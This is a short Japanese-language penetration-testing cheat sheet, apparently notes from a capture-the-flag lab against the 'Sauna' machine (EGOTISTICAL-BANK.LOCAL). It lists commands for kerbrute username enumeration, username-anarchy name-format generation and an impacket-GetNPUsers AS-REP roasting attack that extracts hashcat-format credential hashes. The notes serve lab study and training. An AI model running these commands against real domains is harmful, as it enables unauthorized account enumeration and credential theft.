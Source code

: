 ## kerbrute

- コマンド:
  ```bash
  ./kerbrute_linux_amd64 -d egotisticalbank --dc 10.10.10.175 userenum /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
  ```

### Kerberos事前認証無効アカウントの調査

![Kerberos Pre-Auth](https://github.com/user-attachments/assets/241b929c-cd39-4f32-95e0-638316ee5d52)

#### Windows用のusernameファイルの作成
- 事前にkerbruteやenum4linux等でDCの名前のフォーマットを調べ、そのフォーマットに対応するようにファイルを作成します。

  - ファーストネーム・ラストネーム形式
    ```bash
    /home/kali/github/username-anarchy/username-anarchy --input-file ./users.txt --select-format first.last
    ```
    ![First.Last Format](https://github.com/user-attachments/assets/9ae9aadf-5c86-48fa-a248-013025577acc)

  - ファーストネームイニシャル・ラストネーム形式
    ```bash
    /home/kali/github/username-anarchy/username-anarchy --input-file ./users_Initial_lastname.txt --select-format flast
    ```
    ![FLast Format](https://github.com/user-attachments/assets/9eec67cc-3dc6-4a01-b2da-56d41336eee2)

  - 注意: 画面出力しかされないので、これらを含むテキストファイルを改めて作成します。

### ASREProast攻撃
- コマンド:
  ```bash
  impacket-GetNPUsers -usersfile users_Initial_lastname.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip 10.10.10.175 'EGOTISTICAL-BANK.LOCAL/'
  ```
  ![ASREProast Attack](https://github.com/user-attachments/assets/95fd7aa4-3a2b-435c-aca6-1893f741c00a)

